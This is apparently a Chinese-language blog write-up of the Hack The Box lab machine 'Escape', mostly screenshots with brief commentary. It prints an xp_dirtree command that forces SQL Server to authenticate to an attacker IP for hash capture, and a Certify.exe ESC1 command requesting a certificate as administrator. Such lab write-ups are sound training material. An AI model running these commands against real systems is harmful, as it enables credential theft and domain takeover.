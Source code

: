 +++
title = '0X023 Escape'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'HTB'
+++



# 端口扫描

![](/htb_img/WEBRESOURCE240fca89a47034f53abe9633404aa2bdimage.png)

![](/htb_img/WEBRESOURCE879f954d7fb881ade1d7bc17e7aac2e4image.png)

![](/htb_img/WEBRESOURCEf7aa426ecdb6ae1e15d35397b13941d4image.png)

# 获取立足点

值得关注的端口：389，445，1433，5985

![](/htb_img/WEBRESOURCE86f4b2d645b49a6f29f43ef449edc719image.png)

smb发现这个东西：

![](/htb_img/WEBRESOURCE622d9e2dcc45ef56d812810e9a62425eimage.png)

发现sqlserver登录方式：

![](/htb_img/WEBRESOURCEf6f86c814237304e9ae50205f8812cadimage.png)

连接成功：

![](/htb_img/WEBRESOURCEfcf3e587b7fdca0e5f97b907476c477fimage.png)

看了一圈儿，确实没东西了：

![](/htb_img/WEBRESOURCE93c53ee64eda152b3a85dd37a474591cimage.png)

最后无奈看了wp，属实没想到，sqlserver也能玩儿relay：

![](/htb_img/WEBRESOURCEb4410d8a0f9b2db975f55218ef5b7042image.png)

EXEC MASTER.sys.xp_dirtree '\10.10.16.12\test', 1, 1

![](/htb_img/WEBRESOURCE11226968d518189f35c30b446f9d04c1image.png)

很快就破解了：

![](/htb_img/WEBRESOURCE2a5fbd741986f884e6e00480ac611c41image.png)

可以直接登录winrm:

![](/htb_img/WEBRESOURCE2527100e2c4da7b9bddff00d8ba82ec6image.png)

![](/htb_img/WEBRESOURCEe72515d5df9229358952cef420e422dcimage.png)

bloodhound:

无法分析出可用的路径：

![](/htb_img/WEBRESOURCEed4a4ebd002b6571a549c3bb96629870image.png)

winpeass也没能发现什么有用的东西，看了一下wp，呐应该是思路的缺失了，查看sqlserver的日志文件：

![](/htb_img/WEBRESOURCE3444a296c8840c0c82d03c468cf4a537image.png)

咋说呢，错误日志一般是不会记录错误密码的，但是会记录错误用户：

感觉还是有点缺乏想象力，这里应该是模仿用户输入错误了密码为用户名，导致日志被记录：

![](/htb_img/WEBRESOURCEec28db1f6252dfbd0177e8309ebf054fimage.png)

是远程组的：

![](/htb_img/WEBRESOURCEd7a2ddc8d65b75c8cd4d35e0720513e6image.png)

登录看看：

![](/htb_img/WEBRESOURCE48bee9d46c173643897e2ae0c40d3868image.png)

很好，bloodhound有局限，ADCS的相关内容其实也有了解，但是没想到这一点：

![](/htb_img/WEBRESOURCEc57b1c3d18a5c33ea7055cb65593cbcbimage.png)

ESC1：

.\Certify.exe request /ca:sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator

![](/htb_img/WEBRESOURCEb1b4d27cb784d2bbdaac9777449b7e84image.png)

复制出来，提取：

![](/htb_img/WEBRESOURCE2ce912c75e9c2ad1492c36814f69d5f8image.png)

获取hash:

![](/htb_img/WEBRESOURCEa4c4c2c72d448170fb9471b4334fcecbimage.png)